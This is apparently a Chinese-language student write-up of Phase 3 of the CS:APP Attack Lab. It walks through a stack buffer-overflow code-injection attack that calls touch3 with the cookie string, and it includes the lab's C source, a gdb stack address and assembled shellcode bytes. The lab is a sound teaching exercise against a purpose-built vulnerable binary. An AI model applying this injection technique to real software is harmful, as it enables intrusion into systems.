 ***

### Phase 3

#### 要求

- **本题与上题类似，不同点在于传的参数是一个字符串。**

~~~C
void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
~~~

**`touch3`中调用了`hexmatch`，它的C语言代码为：**

~~~C
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
    /* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
~~~

#### 思路

- **注意`s`的位置是随机的，我们写在`getbuf`栈中的字符串很有可能被覆盖，一旦被覆盖就无法正常比较。**

- 使用test的栈进行cookie字符串的存储；将字符串存放的地址写入`%rdi`
- 其余与Phase2相同

![](C:\Github_io\source\img\csapp\attack_phase3.png)

- 此时test的栈帧

  > ~~~bash
  > (gdb) p $rsp
  > $2 = (void *) 0x5561dca8
  > ~~~

- 生成的字节码文件

  > ~~~assembly
  > phase3ass.o:     file format elf64-x86-64
  > 
  > 
  > Disassembly of section .text:
  > 
  > 0000000000000000 <.text>:
  >    0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
  >    7:	68 fa 18 40 00       	pushq  $0x4018fa
  >    c:	c3                   	retq   
  > ~~~
